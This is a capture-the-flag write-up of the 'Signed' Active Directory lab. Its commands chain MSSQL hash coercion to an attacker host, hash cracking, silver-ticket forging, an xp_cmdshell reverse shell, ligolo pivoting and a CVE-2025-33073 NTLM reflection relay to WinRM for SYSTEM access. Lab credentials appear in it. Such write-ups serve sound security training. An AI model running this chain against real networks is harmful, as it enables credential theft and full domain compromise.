Signed

Signed was a medium-difficulty Active Directory machine that began with an nmap scan revealing only MSSQL on port 1433. Using provided credentials (scott:Sm230#C5NatH), I connected via impacket-mssqlclient and performed reconnaissance using EXEC sp_helprotect to identify available stored procedures. I discovered xp_dirtree, which allows directory listing via UNC paths, and exploited this to coerce NTLM authentication by pointing it to my attacker-controlled SMB server (\10.10.16.92\test). Using Responder, I captured the NetNTLMv2 hash for the mssqlsvc service account and cracked it with John the Ripper, recovering the password (purPLE9795!@).
After authenticating to MSSQL with the mssqlsvc account using the -windows-auth flag, I enumerated server principals and discovered that the SIGNED\IT Active Directory group possessed the sysadmin role. I queried sys.server_principals to retrieve the group's SID in binary format (0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000) and wrote a Python script to decode it into standard SID format (S-1-5-21-4088429403-1159899800-2753317549-1105). By stripping the RID (1105), I obtained the domain SID needed for Kerberos ticket forgery.
With the domain SID, I used impacket-ticketer to forge a silver ticket for the MSSQL service (mssqlSvc/dc01.signed.htb), impersonating the mssqlsvc user as a member of the IT group (RID 1105). I calculated the NT hash of the mssqlsvc password using Python's hashlib.md4 and created the ticket. After exporting the forged ticket (KRB5CCNAME=ticket.ccache), I authenticated to MSSQL with Kerberos authentication and confirmed sysadmin privileges. I enabled xp_cmdshell and executed a base64-encoded PowerShell reverse shell payload, gaining initial access as the mssqlsvc user and capturing the user flag.
Once on the machine, I ran netstat to identify locally-listening services and discovered multiple AD ports (LDAP 389, Kerberos 88, SMB 445) bound to 127.0.0.1. To access these internal services, I deployed Ligolo-ng for network pivoting, creating a TUN interface (ligolo), starting the proxy on my attack box, transferring the agent to the victim, and adding a route (240.0.0.1/32) to tunnel traffic through the magic IP range directly to the target's localhost.
During privilege escalation enumeration, I discovered that LDAP signing was not enforced on the domain controller, while SMB signing was enabled, ruling out traditional SMB relay attacks. I identified CVE-2025-33073, a recently-disclosed NTLM reflection vulnerability that bypasses Microsoft's loop-back authentication protections using crafted DNS records. I used dnstool.py to add a malicious DNS A record (localhost1) with a marshalled base64 blob that presented itself as a localhost variant while actually resolving to my attacker IP (10.10.16.92). This DNS record tricked the victim machine into believing it was authenticating to itself (safe), while actually sending NTLM authentication to my relay server, bypassing reflection protections.
I configured impacket-ntlmrelayx to target WinRM on port 5985 (winrms://240.0.0.1) with SMB2 support, then used NetExec's coerce_plus module to force the domain controller to authenticate to the crafted DNS record (localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA). The machine account authentication was successfully relayed to WinRM, which opened a SYSTEM-level shell on local port 11000. I connected to the WinRM session, verified SYSTEM privileges, and captured the root flag.
User Flag

Initial nmap scan reveals only a single port, and it is MSSQL on 1433. No Simple DNS +, no Kerberos.
Investigating the MSSQL service
Since I have credentials for MSSQL, I'll use impacket's mssqlclient to explore it.
impacket-mssqlclient signed.htb/scott:'Sm230#C5NatH'@10.129.242.173

Running a few standard recon commands doesn't reveal many interesting things. Looking at what I can use, I noticed a useful directive.
EXEC sp_helprotect;

xp_dirtree allows me to list directory contents, and it is not limited to local paths. In short, this means that I can use an UNC network path to make the underlying sql account authenticate to whatever host I point it to.
In turn, this will allow me to capture its authentication attempt, and, if the password is weak, crack the hash to get the plaintext password.
sudo responder -I tun0
xp_dirtree \\AttackBoxIP\\test

A connection came to my listener, and the NetNTLMv2 hash has been captured. I'll try cracking it with John.

mssqlsvc | purPLE9795!@
I'll login into MSSQL with this account. Because mssqlsvc is an AD account, I will use the -windows-auth flag.
impacket-mssqlclient signed.htb/mssqlsvc:'purPLE9795!@'@10.129.242.173 -windows-auth
Looking for a reachable sysadmin user

This account revealed an impersonation permission, but the aforementioned user does not seem to be reachable from my current position. I'll check which users/groups have the sysadmin role, as these will be my next target for escalation.
SELECT name FROM master.sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin', name) = 1

There are 4 service accounts, sa, as well as the IT group. I named it as a group, as its naming scheme follows the normal AD group naming for groups (DOMAIN/GROUPNAME).
I can't really see what accounts are in the IT group, as only MSSQL is open to me, and I can't get that information from this service. However, I can see a bit more detail about this group by making queries.
select name,sid,type,type_desc,is_disabled,create_date from sys.server_principals WHERE name= 'SIGNED\IT'

The SID of this group is stored in a binary-like format. There doesn't seem to be a proper way to quickly decode this back into a familiar format, but with the knowledge of each section of the SID, I'm confident I'll be able to convert it.
# convert.py
def decode_sid(hex_string):
hex_string = hex_string.replace("b'", "").replace("'", "")
sid_bytes = bytes.fromhex(hex_string)
# Parse the SID structure
revision = sid_bytes[0]
sub_authority_count = sid_bytes[1]
# Authority is 6 bytes, big-endian
authority = int.from_bytes(sid_bytes[2:8], byteorder='big')
# Sub-authorities are 4 bytes each, little-endian
sub_authorities = []
for i in range(sub_authority_count):
offset = 8 + (i * 4)
sub_auth = int.from_bytes(sid_bytes[offset:offset+4], byteorder='little')
sub_authorities.append(sub_auth)
# Build the SID string
sid_string = f"S-{revision}-{authority}"
for sub_auth in sub_authorities:
sid_string += f"-{sub_auth}"
return sid_string
hex_sid = "0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000"
print(decode_sid(hex_sid))
admin_hex = "0105000000000005150000005b7bb0f398aa2245ad4a1ca4f4010000"
print(decode_sid(admin_hex))

This script successfully converts the SIDs from their current binary format to a more friendly, regular SID format.
S-1-5-21-4088429403-1159899800-2753317549-500 -> admin SID
S-1-5-21-4088429403-1159899800-2753317549-1105 -> IT group SID
By removing the RIDs, I'll uncover the domain's SID, which will be useful in the next step. That will be forging a ticket for the IT group, as I have everything necessary now.
Forging a service ticket for the IT group
The idea here is to create a fake ticket for the MSSQL service. I can do so by using Impacket's ticketer.
impacket-ticketer -spn mssqlSvc/dc01.signed.htb -domain signed.htb -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -nthash ef699384c3285c54128a3ee1ddb1a0cc -groups 1105 mssqlsvc
The NThash can be quickly calculated with this Python one-liner:
import hashlib; print(hashlib.new('md4', 'purPLE9795!@'.encode('utf-16le')).hexdigest())
The reason I set the user to belong to the IT group is that this group has the sysadmin privilege in MSSQL. If I log in with this ticket, I should be granted sysadmin privileges.

And now to sign into the service with this ticket, I'll export it before logging in.
export KRB5CCNAME=ticket.ccache
impacket-mssqlclient -k -no-pass 'signed.htb/mssqlsvc:purPLE9795!@@dc01.signed.htb' -windows-auth -debug

I am now a sysadmin. The reason why I am logged in as the administrator is that Ticketer sets the user ID to 500(admin RID) if it's not specified.
Regardless, I can now use xp_cmdshell. A 100% way for code execution on the host machine.
xp_cmdshell powershell -e <BASE64 PAYLOAD>

And in a different terminal, my listener received a hit.

Root flag
Once on the box, I began my recon by looking at local-listening services. This looks like an AD box, but no ports other than MSSQL are open to the world. They could be open locally, though.
netstat -ano | findstr LISTENING

I can see a few familiar ports listening on localhost, confirming my suspicions. Now, to get access to all of this, I will need to utilize ligolo-ng to route the traffic I want to the machine's localhost address.
sudo ip tuntap add user kalin mode tun ligolo
sudo ip link set ligolo up
Enable proxy on the attack box
activate the agent on the victim
sudo ip route add 240.0.0.1/32 dev ligolo
start tunnel on the proxy interface
Using this magic range, I can interact with the target's local ports.

Escalation with NTLM reflection CVE
The mssqlsvc account doesn't have any outstanding perms. Initially, I was hoping I'd see a SeImpersonate privilege associated with this account, as sql svc accounts tend to have it from time to time.
Continuing my recon with the local ports, I noticed that LDAP signing is not enforced on the box.

SMB signing is enforced, so SMB/Kerberos relays are out of the question here. However, LDAP signing being disabled looks like a good way for escalation, especially with a "new" trick in my arsenal.
https://www.rbtsec.com/blog/ntlm-reflection-abusing-ntlm-for-privilege-escalation-cve-2025-33073/
The idea here is that we're tricking the machine into authenticating to a localhost record with marshalled base64 data. The marshalled base64 blob creates a DNS A record that presents itself as a localhost variant, but the actual resolution points to my attacker IP. This tricks the victim into believing it's authenticating to itself (safe) while actually sending NTLM auth to my relay server, bypassing reflection protections.
First, I'll add a specially-crafted DNS record that will fulfill these requirements. Usually, nonexistent DNS records can be added by regular users in a domain.
dnstool.py -u 'SIGNED.HTB\mssqlsvc' -p 'purPLE9795!@' -dc-ip 240.0.0.1 -r localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -a add -d 10.10.16.92 -dns-ip 240.0.0.1 240.0.0.1
I chose to relay this LDAP auth to the WinRM service on 5985. If this service receives authentication with an administrative token or higher, it'll open up a shell with the appropriate level for me to use.
impacket-ntlmrelayx -t winrms://240.0.0.1 -smb2support
Lastly, I will coerce the authentication with netexec's coerce_plus module.
nxc smb 240.0.0.1 -u mssqlsvc -p 'purPLE9795!@' -M coerce_plus -o LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA

Success! A WinRM shell has been opened on local port 11000. A quick check confirms that this is a highly elevated access shell.

Rooted!